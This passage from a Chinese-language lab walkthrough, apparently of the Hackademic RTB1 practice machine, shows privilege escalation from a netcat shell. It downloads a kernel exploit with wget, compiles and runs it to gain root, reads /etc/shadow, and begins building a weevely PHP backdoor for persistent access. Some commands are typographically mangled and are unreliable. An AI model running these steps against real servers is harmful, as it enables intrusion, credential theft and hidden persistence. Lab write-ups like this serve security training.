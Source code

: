 /var/www/html/Hackademic\_RTB1/wp-content/plugins

（显示服务器上当前的路径）

uname -a

Linux HackademicRTB1 2.6.31.5-127.fc12.i686 \#1 SMP Sat Nov 721:41:45 EST 2009 i686 i686 i386 GNU/Linux

（显示内核版本信息）

现在我们知道，服务器的内核版本是2.6.31.5-127.fc12.1686,我们在exploit-db.com中搜索此版本的相关漏洞.

在服务器上测试了很多exp之后，我们用以下的exp来提升权限.

http://www.exploit-db.com/exploits/15285

我们在nc shell上执行以下命令:

wgethttp://www.exploit-db.com/exploits/15285 -o roro.c

(下载exp到服务器并重命名为roro.c)

注：很多linux内核的exp都是C语言开发的,因此我们保存为.c扩展名.

exp roro.c代码如下：

通过以上代码我们发现该exp是C语言开发的，我们需要将他编译成elf格式的,命令如下:

gcc roro.c –ororo

接下来执行编译好的exp

./roro

![IT外包网络维护专家告诉你，黑客是如何攻破一个网站？][IT 15]

执行完成之后我们输入id命令

id

我们发现我们已经是root权限了

uid=0(root) gid=0(root)

现在我们可以查看/etc/shadow文件

cat/etc/shadow

![IT外包网络维护专家告诉你，黑客是如何攻破一个网站？][IT 16]

我们可以使用”john theripper”工具破解所有用户的密码.但是我们不会这样做，我们需要在这个服务器上留下后门以方便我们在任何时候访问它.

我们用weevely制作一个php小马上传到服务器上.

1.weevely使用选项

root@bt:/pentest/backdoors/web/weevely\#./main.py -

![IT外包网络维护专家告诉你，黑客是如何攻破一个网站？][IT 17]

2.用weevely创建一个密码为koko的php后门


[IT]: /pro/os/crawler/JAVR-IABU-FZ6V.jpg
[IT 1]: http://p9.pstatp.com/large/pgc-image/15295655345973f39af02a7
[IT 2]: /pro/os/crawler/RN6Z-FBUZ-FYJY.jpg
[IT 3]: /pro/os/crawler/ANVE-NFIZ-6ZZE.jpg
[IT 4]: /pro/os/crawler/JFFR-NNQY-IIBM.jpg
[IT 5]: /pro/os/crawler/U2UA-RY3E-RUQI.jpg
[IT 6]: /pro/os/crawler/UFUF-32YQ-7ZMU.jpg
[IT 7]: /pro/os/crawler/NFEB-JQQY-JEFJ.jpg
[IT 8]: /pro/os/crawler/MFFE-UM7R-BVYQ.jpg
[IT 9]: /pro/os/crawler/NYAB-QQVI-B2IA.jpg
[IT 10]: /pro/os/crawler/JIMN-ZJZM-FMIB.jpg
[IT 11]: /pro/os/crawler/RJZI-N3QM-M3YU.jpg
[IT 12]: /pro/os/crawler/RIMF-VQJ3-YUMR.jpg
[IT 13]: /pro/os/crawler/QFMY-BMBA-AMU3.jpg
[IT 14]: /pro/os/crawler/ZARV-Z2IU-AZIA.jpg
[IT 15]: /pro/os/crawler/JQEV-QZYF-ZR7N.jpg
[IT 16]: /pro/os/crawler/BNEZ-F2NV-J6Z2.jpg
[IT 17]: /pro/os/crawler/3YRJ-EVEE-BVAQ.jpg
[IT 18]: /pro/os/crawler/6VJQ-N32A-UBY2.jpg